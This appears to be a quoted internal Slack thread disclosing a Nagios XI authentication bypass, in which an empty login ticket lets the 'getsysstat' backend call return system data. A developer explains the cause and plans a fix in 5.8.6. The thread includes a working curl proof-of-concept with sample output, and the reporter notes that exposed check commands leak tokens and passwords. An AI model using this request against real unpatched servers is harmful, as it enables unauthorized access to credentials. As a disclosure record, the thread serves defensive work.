

Original disclosure via internal company's Slack **#support** channel:

> **Dan Church August 24 13:18 CDT**
>
> I think I found a potential security issue. I'm seeing there's an API call (called by `check_nagiosxiserver.php`) that returns system data without requiring an API key.
> I saw this when I accidentally tried using an empty API key in the script call:
> ```
> php /usr/local/nagios/libexec/check_nagiosxiserver.php --mode=iowait --apikey= --username=nagiosadmin --url=http://192.168.23.44/nagiosxi
> Critical: I/O Wait = 16.26%|iowait=16.26%;0;0;;
> ```
> For example:
> ```
> curl -s 'http://192.168.23.44/nagiosxi/backend/?cmd=getsysstat&username=nagiosadmin&ticket='
> <?xml version="1.0" encoding="utf-8"?>
> <sysstatinfo>
> ...
> <daemons>
> <updated>2021-08-24 14:13:50</updated>
> <daemon id='nagioscore'>
> <name>nagios</name>
> <output>           ..25086 /usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.cfg</output>
> <return_code>0</return_code>
> <status>0</status>
> </daemon>
> <daemon id='pnp'>
> <name>npcd</name>
> <output>           ..1347 /usr/local/nagios/bin/npcd -d -f /usr/local/nagios/etc/pnp/npcd.cfg</output>
> <return_code>0</return_code>
> <status>0</status>
> </daemon>
> </daemons>
> <nagioscore>
> <updated>2021-08-24 14:13:50</updated>
> <activehostchecks>
> ...
> ```


> **Jake Omann August 24 13:25 CDT**
>
> interesting, it looks like it's probably due to the insecure login ticket being either blank or not existant for that user, and so it is checking if "" == null or "" == "" which seems to be the issue

> **Dan Church August 24 13:26 CDT**
>
> Uhhh, this is a bigger issue than I expected. I'm seeing exposed check commands including tokens, IP addresses and passwords.
> 

> **Dan Church August 24 13:27 CDT**
>
> Can we get this escalated, please?

> **Jake Omann August 24 13:30 CDT**
>
> It'll be fixed in 5.8.6, I'm making the change now but will have to test
